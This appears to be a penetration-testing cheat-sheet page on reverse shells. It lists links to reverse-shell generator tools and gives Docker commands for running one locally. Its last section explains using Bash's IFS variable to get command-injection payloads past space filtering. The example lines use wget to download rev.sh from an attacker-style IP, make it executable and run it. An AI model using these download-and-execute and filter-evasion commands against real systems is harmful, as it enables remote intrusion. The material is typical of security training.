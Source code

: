 !!! info ""

    #### sources

    - [calc1f4r Rootme](https://github.com/calc1f4r/Rootme)
    - [Reverse Shells](https://reverse-shell.sh/)
    - [Online - Reverse Shell Generator](https://www.revshells.com/)
    - [ShutdownRepo/shellerator](https://github.com/ShutdownRepo/shellerator)
    - [0x00-0x00/ShellPop](https://github.com/0x00-0x00/ShellPop)
    - [cybervaca/ShellReverse](https://github.com/cybervaca/ShellReverse)
    - [pyminifier](https://liftoff.github.io/pyminifier/)
    - [xct/xc](https://github.com/xct/xc/)
    - [Reverse Shell Generator](https://weibell.github.io/reverse-shell-generator/)
    - [t0thkr1s/revshellgen](https://github.com/t0thkr1s/revshellgen)
    - [mthbernardes/rsg](https://github.com/mthbernardes/rsg)
    - [My Pentest Tools](https://tex2e.github.io/reverse-shell-generator/index.html)

!!! info ""
    
    #### 0dayctf
    
    [0dayctf](https://github.com/0dayCTF/reverse-shell-generator)

    ```shell
    wget https://github.com/0dayCTF/reverse-shell-generator/archive/refs/heads/main.zip
    unzip main.zip
    cd reverse-shell-generator-main
    docker build -t reverse_shell_generator .
    docker run -d -p 8090:80 reverse_shell_generator

    http://127.0.0.1:8090
    ```

!!! info ""

    #### Bash IFS - Reverse Shell - Burp Repeater - PHP

    - IFS Internal Field Separator
    - The special shell variable _IFS_ determines how Bash recognizes word boundaries while splitting a sequence of character strings.
    - The default value of _IFS_ is a three-character string comprising a space, tab, and newline

    ```shell
    ls${IFS}-la
    ping${IFS}127.0.0.1
    wget${IFS}http://10.10.10.10:8888/rev.sh
    chmod${IFS}777{IFS}rev.sh
    bash${IFS}rev.sh
    ```

